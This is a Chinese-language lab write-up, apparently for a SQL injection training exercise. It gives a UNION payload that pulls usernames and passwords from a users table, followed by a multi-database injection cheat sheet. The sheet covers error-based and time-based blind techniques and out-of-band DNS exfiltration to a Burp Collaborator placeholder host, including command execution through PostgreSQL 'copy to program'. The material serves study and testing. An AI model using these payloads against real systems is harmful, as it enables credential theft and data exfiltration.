



# 题意

该题与上一题基本一致，也是用administrator登录即可。
# 解题思路
思路也与上一题一致，只有payload需要改动：

```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
需要这样改动的原因:


与上一题不同的是，这一题的返回查询中虽然列数也是两列，但是只有第二列与string类型兼容，第一列不兼容。因此，作为payload的sql语句中需要实现一个列返回多列数据。


结果：

# 知识点

## sql注入常用语法
### 字符串串联
将多个字符串串联成一个

<u>Oracle  'foo'||'bar'</u>

<u>Microsoft  'foo'||'bar'</u>

<u>PostgreSQL 'foo'||'bar'</u>

<u>MySQL 'foo' 'bar'(空格)   CONCAT('foo','bar')</u>


### 子串
按照指定的偏移量提取子串

<u>Oracle SUBSTR('foobar',4,2)</u>

<u>Microsoft SUBSTRING('foobar',4,2)</u>

<u>PostgreSQL SUBSTRING('foobar',4,2)</u>

<u>MySQL SUBSTRING('foobar',4,2) </u>


以上语句都返回字符串'ba'


### 注释
<u>Oracle --</u>

<u>Microsoft -- 或者 /* */</u>

<u>PostgreSQL-- 或者/* */</u>

<u>MySQL #或者-- （注意空格）或者/* */</u>

### 数据库版本

### 数据库内容
列出数据库中存在的表，以及表包含的列

<u> Oracle SELECT * FROM all_tables</u>
<u> SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'</u>

<u>Microsoft SELECT * FROM information_schema.tables
    SELECT * FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE'
</u>

<u>PostgreSQL SELECT * FROM information_schema.tables   SELECT
*FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE'
</u>

<u>MySQL SELECT * FROM information_schema.tables  SELECT * FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE'</u>

### 条件错误
设置一个bool条件并且在条件为真时触发一个数据库错误
```
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

### 批处理查询 
批处理查询用来执行多条查询语句。注意当执行后续语句时，不会向应用程序返回执行结果。因此该技术主要是用在盲注，可以用另一句查询语句来出发DNS lookup、条件错误、或者延迟等。
```
Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE
```
注意，一般来说批处理查询不能用于MySQL的SQL注入，除非目标程序使用特定的PHP或者Python API来跟mysql数据库交互。

### 延迟
当语句执行时造成延时
```
Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
```
Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

### 条件延时
```
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```
### DNS解析
让数据库进行一次对额外域名的DNS解析。为此，需要用Burp Collaborator来生成一个独特的子域名，并且轮询Collaborator 服务器来确认DNS解析是否发生。
```
Oracle	
利用XXE来出发DNS解析。虽然XXE被修复了但是还有许多未补丁的Oracle安装版本存在。
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

以下技术对完全补丁的Oracle也适用，但是需要提权。
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	只适用于windows:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
### 带数据泄露的DNS解析

```
Oracle	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'  
```
